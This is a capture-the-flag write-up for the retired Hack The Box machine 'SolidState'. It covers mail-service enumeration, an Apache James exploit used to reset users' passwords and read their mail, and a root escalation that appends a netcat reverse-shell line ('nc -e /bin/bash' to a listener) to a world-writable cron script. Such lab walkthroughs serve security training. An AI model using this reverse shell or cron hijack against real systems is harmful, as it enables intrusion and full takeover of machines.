

# SolidState

Machine: [SolidState](https://app.hackthebox.com/machines/85)\
Difficulty: Medium\
Status: Retired

## Enumeration

What operating system is on this machine? Linux
What ports/services are on running on this machine?\ 

What udp ports are open?\

SMPT (25) - SMTP (Simple Mail Transfer Protocol) is the basic standard for sending email via the internet between mail servers. Applications like Apple Mail and Outlook use SMTP to send emails to mail servers, which subsequently relay them to other mail servers.\

POP3 (110) - Post Office Protocol (POP) is a type of computer networking and Internet standard protocol that extracts and retrieves email from a remote mail server for access by the host machine. POP is an application layer protocol in the OSI model that provides end users the ability to fetch and receive email.\

NNTP is an application-layer protocol used for transporting Usenet news articles between news servers. Client applications can also inquire, retrieve, and post articles.\

Given the ports/services that are open, I am guessing that this is some sort of mail server or it has something to do with a mail server.  

I did see the web admin email being listed on the homepage. I am not sure if this will be of any importance, but I will note it down just in case.\

Since smtp, pop3 and other services are open, I am going to see if there are any enumeration scripts within nmap that will help us.  To find the nmap scripts, just type this command 'ls -al /usr/share/nmap/scripts/ |grep -e "smtp" and it will output something like this if there are script available:\

I did find a root user after running the below script. The other scripts did not return anything that I thought was important, so I will move on to enumerating pop3 and nntp.

I ran the scripts that are available for pop3, and I did not get back any information of importance.
\

Since we have a webserver running on port 80, lets use dirbuster to find any directories and files.

In the dirbuster scan results, I did find a readme.txt file that you can see below. It looks like it might contain information that is important, but I am not sure yet.  It is using Creative Commons Attribution 3.0 Unported, so maybe this is vulnerable?

## Exploitation

I went back through the version running with each of the services, and I did find this exploit: https://www.exploit-db.com/exploits/50347. I intially ran the exploit and it gave me a message saying that someone needed to login for it to work. At the time I did not have any users credentials, but in the exploit it does give the username/password for the James Apache Server. To log in we will use netcat. After logging in, we see that we can change the passwords of the users...this will allow us to login and view the users mail/inbox.

After browsing through each user's mailbox, we see an email that was sent to Mindy that contains ssh credentials which will allow us to login.

### Flags
User:

Root: 
For root access, I needed to escalate my priveleges to root. Initally I uploaded LinEnum and Linpeas to see if any misconfigurations or any vulnerabilites are found that would allow me to escalate my privileges to root, but neither LinEnum or Linpeas showed me any valuable information. I had to refer to a tutorial, and LinEnum is supposed to return information about world/global writable files.  The is a python script that is being run as part of a cron job...when it executes it will execute as root. Given that we have the permission to write to this file, we can append some code that will gives us a root shell the next time the cron job runs this script. I appended this line to the python script and setup a netcat listener, 'os.system(nc -e /bin/bash 10.10.14.4 5555)'. After a couple of minutes I had a new shell as root.

